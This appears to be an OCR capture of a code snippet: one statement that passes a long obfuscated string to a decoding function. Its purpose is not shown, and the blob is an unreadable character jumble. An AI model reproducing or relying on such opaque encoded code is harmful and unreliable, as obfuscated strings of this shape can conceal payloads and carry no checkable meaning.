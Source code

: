 s=r(e,"Gx)=foWUjTQADPbn_=A)jAWf=nxnbnDjQxD4AjjPUUnb)=nnDDQPxPnQDPQWUnDoT)WPoo)AAoU-ox)/nTP)bDbjDxjTUffA=o{=b)AQ)UxUPUA*jTQnQQj=oAxTSfPAA9UPUUfbxbnDDbA=WxoA)n0jb)DfUaUDoo)DToUofoxbnUxnxAbADQQ)WxfA=)lDU=Wx)=nDPo);bTPjTQjoob)TxxPnA=W)=ZuTbUDKTPUxfQ)fnbPAAfjD)nxxPnAjTxA)QDjXoQxbxTboDWTAjKoxAnQTWnfj)xoAfx)}bbUbQ=UnfD)PAAPnA)TnWxfxxnbbj=AWxUnjDUQ,UTTnjDWnf);PnjPWQojTWQDDQWjgWQ=Z1Tb))bHfDbAT=noQf/DQbjPfTjj=oA)oATPPAPjjWAPjDmjjWx=QjUob=bVWPjD)jP))=D))nWP=QcjDoQ=TxxUboT)b!Ub3h)noPQA)xnc)DnQjjxTPQ)UQfA)UnbAWAjjbon=TxnjjWn=jxxbQx7nPb5A=UoWnfPxAnxDPQHUUW==xx4bjooofFoPbAUnxb,W)jboU=nsnbnDDoxWAN=xbnWbxWUj)Wjn)xjn)P)oWjxfT=jnAbPWDjTUzfD)=nPj)QWjWfb=P/HUQoQ)QI=PDnWn)DAj)jbWW=nx=bAoj=WejbxAQbRDPA^j=fA=x9AjfWj=f(PbWxbbjPfAAWUUo=bnoDjDAjTUb=WDWQfUWfn)jfffT)xSuDQQDjAn)P<Q)UAofjhWTox)x<xPbAWxbnPDbQUj_TDT=UUouxnnUP)A=)=nnP=QDjoQUQfUxo2)UTPUAfP)Wnn)l)onbP=j=UQW)DTDUUTo))Aojfoxn0)jjQUj=on=xDonoAjQ=)To))PY=bxQAj)WD=WtbQ=P=Tbj)fnbebWbxAQT)om=Ax)QjAUWPxonUDoTbUUQ:TAWUfjxP4)P=jbjWoPf=QojWoo)b{U==xQ{jPKjUjDWf=oxxbjoD=UMDboAbbAPTAWjUnPPbQPjWonQfjYfA)U3nbTDFTLWbflAfTQWf=PxWoZ=Px=PAU=Qf)ooJxDA2PWQ=jWoTbPQjADoj=xHQfA=zdTPbAQoQ)j_xxPboPfWfUWox=oL)bjQbTQUx=D))bDPxQTjjo)=fx=QWAfTTUZ9A)jnWP=QoTxWT)DxWb)joUbUQfQ)T(xTAA)UnWc=bPjnoDQQTUnfT)fTQUWfQ)=nDfxxPbQDAQDxfn5DfTPUWAbTnWn=n)ojbUx=bxUnr=fiUnfAWTDWUoxxDAxPxAjjonUPPQUjhoTQjWDoU)1nUPAWjjfoAflDDnxDPTQUAbADjTAUffPUjffxT,xDnAo=PxobbDUQ#UTo)=nffPnAQjnWjfxWY=jrPnUjzoA=ZmTb)hTnoPQQA)xnDPxQQj=D=TWUAfDD)QnU)fA)ffffAxjQjDUQTjoSD=)y=TUAxTUWWnAxQnnDnQfjWoo=PQ=UDoD)bYUbsAnT)WAffxnnADnQjjxDQQoUoo==)TTUQfT))nAfJxDbUD=QAjooD)DNQPDov)b2gPTA)P=PjAxjW=W)PxoUDQb)DkoPbxnrfPPA)jb)bnDPonxATQj=jfQ)oOTPWADj)Wbfox>nWDNQoUPoD)W&jbUUQjjWPffPnDPQQUPoUoD==?DbPAnT=UUoobfP)Qnj)Wjoj=xZPblAnTqUf=fxPNoPoAoT))W=P/QbADTW=UQfU))_QbpAUT)ob=U)UbTDxQoUbof)Ax)bTAzTjUEPDAUjDWo=bUbox=W%UUPW))PXWPnxQCWPbAUjAW=bbxUn)AbQoUbfT)xTWWnfj)x_oP=QDjoUcU=xwbTD)TPUffP)WxxbUAxjAW=fxxobbDUDRToo))D8fPbAWT)Wjo=)=n=DnQoj)oU=5+Tb)D=TfWbfW))njPxQQj=WW=oYbbUD2TTUffA)fxiPWQnjjW)=QxfbDPUQ=UUoX)T9=PAAfjPUjWWxjn)DQQTUDoo)b